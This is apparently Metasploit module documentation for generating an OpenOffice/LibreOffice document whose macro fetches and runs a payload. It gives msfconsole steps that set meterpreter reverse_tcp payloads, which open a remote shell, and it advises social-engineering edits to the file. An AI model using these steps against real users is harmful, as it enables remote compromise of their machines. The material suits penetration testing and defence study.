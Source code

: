 ## Vulnerable Application

This module generates an Apache OpenOffice Text Document with a malicious macro in it. It also
works against LibreOffice.

To exploit successfully, the targeted user must adjust the security level in Macro Security to
either Medium or Low. If set to Medium, a prompt is presented to the user to enable or disable the
macro. If set to Low, the macro can automatically run without any warning.

* Apache OpenOffice
* LibreOffice

## Verification Steps

To use this exploit, you must know the platform of the targeted user. The module supports Windows,
Linux, and OSX. If the target is using Windows, then the exploit will generate the macro
with malicious Powershell code inside. For other supported platforms, the exploit will generate
Python code.

An example of using this module against Windows:

1. Start msfconsole
2. ```use exploit/multi/misc/openoffice_document_macro```
3. ```set target 0```
4. ```set payload windows/meterpreter/reverse_tcp```
5. ```exploit```

An example of using this module against Linux or OSX:

1. Start msfconsole
2. ```use exploit/multi/misc/openoffice_document_macro```
3. ```set target 1```
4. ```set payload python/meterpreter/reverse_tcp```
5. ```exploit```

Once started, the module will mainly do these things:

1. It will start a payload handler.
2. It will start a web server. This is used for the macro to download and execute our final payload.
3. The malicious odt file. Send this to your targeted user.

## Options

### BODY

This option can be used to insert text to the malicious document.

## Scenarios

![openoffice_macro_demo](https://cloud.githubusercontent.com/assets/1170914/22761020/9e7667ca-ee1e-11e6-9fc1-a29c55f405f0.gif)

### Modification

Since social engineering will play a big part in the success of the attack, you will most likely
want to modify the odt file.

1. To do so, first use msfconsole to generate the malicious odt file.
2. Move the odt file to a system that has OpenOffice or LibreOffice
3. You can just use OpenOffice/LibreOffice to edit the file. Make sure you don't modify the macro
   code unless you actually know what you're doing.

